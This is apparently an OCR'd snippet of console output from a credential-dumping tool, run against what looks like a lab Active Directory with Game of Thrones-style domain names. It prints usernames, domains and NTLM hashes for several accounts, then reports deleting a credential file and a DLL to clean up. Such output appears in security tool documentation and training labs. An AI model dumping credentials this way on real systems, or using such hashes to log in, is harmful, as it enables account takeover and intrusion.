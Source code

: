 ```bash
[+] Deleting credential file
[+] Parsing creds:

		============
----
User: vagrant
Domain: WINTERFELL
----
User: vagrant
Domain: WINTERFELL
----
User: eddard.stark
Domain: SEVENKINGDOMS
NTLM: d977b98c6c9282c5c478be1d97b237b8
----
User: eddard.stark
Domain: SEVENKINGDOMS
NTLM: d977b98c6c9282c5c478be1d97b237b8
----
User: vagrant
Domain: WINTERFELL
NTLM: e02bc503339d51f71d913c245d35b50b
----
User: DWM-1
Domain: Window Manager
NTLM: 5f4b70b59ca2d9fb8fa1bf98b50f5590
----
User: DWM-1
Domain: Window Manager
NTLM: 5f4b70b59ca2d9fb8fa1bf98b50f5590
----
User: WINTERFELL$
Domain: SEVENKINGDOMS
NTLM: 5f4b70b59ca2d9fb8fa1bf98b50f5590
----
User: UMFD-0
Domain: Font Driver Host
NTLM: 5f4b70b59ca2d9fb8fa1bf98b50f5590
----
User: 
Domain: 
NTLM: 5f4b70b59ca2d9fb8fa1bf98b50f5590
----
User: 
Domain: 

		============
[+] Deleting DLL

[^] Have a nice day!
```
